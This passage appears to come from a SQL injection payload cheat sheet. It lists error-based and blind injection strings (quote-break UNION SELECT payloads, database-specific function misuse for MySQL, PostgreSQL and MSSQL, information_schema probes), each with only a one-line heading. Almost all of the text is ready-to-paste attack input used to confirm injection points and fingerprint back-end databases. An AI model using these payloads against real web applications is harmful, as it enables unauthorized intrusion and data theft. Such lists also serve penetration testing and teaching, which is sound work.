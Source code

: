 #### Invalid Function Usage

Use a function incorrectly to trigger an error.
```sql
' UNION SELECT EXP('abc') --
```

### 4. Subquery Errors

#### Invalid Subquery

Use a subquery in a way that causes an error.
```sql
' UNION SELECT (SELECT COUNT(*) FROM (SELECT 1 UNION SELECT 2) AS temp) --
```

### 5. Database-Specific Errors

#### MySQL Errors

Use invalid queries to trigger MySQL-specific errors.
```sql
' UNION SELECT GTID_SUBSET('abc', 'def') --
```

#### PostgreSQL Errors

Use invalid operations to cause PostgreSQL errors.
```sql
' UNION SELECT TO_NUMBER('abc', '999') --
```

#### MSSQL Errors

Use MSSQL-specific functions incorrectly to trigger errors.
```sql
' UNION SELECT CONVERT(INT, 'abc') --
```

### 6. Information Schema Queries

#### Invalid Table Name

Query the information schema with an invalid table name.
```sql
' UNION SELECT table_name FROM information_schema.tables WHERE table_name = 'non_existent_table' --
```

### 7. Blind SQL Injection Errors

#### Deliberate False Condition

Use a false condition to force an error indirectly.
```sql
' AND 1=(SELECT COUNT(*) FROM information_schema.tables WHERE table_schema='non_existent_database') --
```
